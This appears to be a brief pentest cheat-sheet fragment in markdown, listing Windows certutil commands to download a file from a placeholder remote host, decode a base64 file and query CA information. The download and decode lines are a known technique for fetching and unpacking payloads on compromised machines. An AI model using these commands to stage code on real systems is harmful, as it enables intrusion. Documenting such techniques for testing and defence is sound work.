 ### download file
```
certutil -urlcache -split -f http://<rhost>/<file>
```

### decode base64 file
```
certutil -decode <base64File> <decodedFile>
```

### get CA host
```
certutil -TCAInfo
```

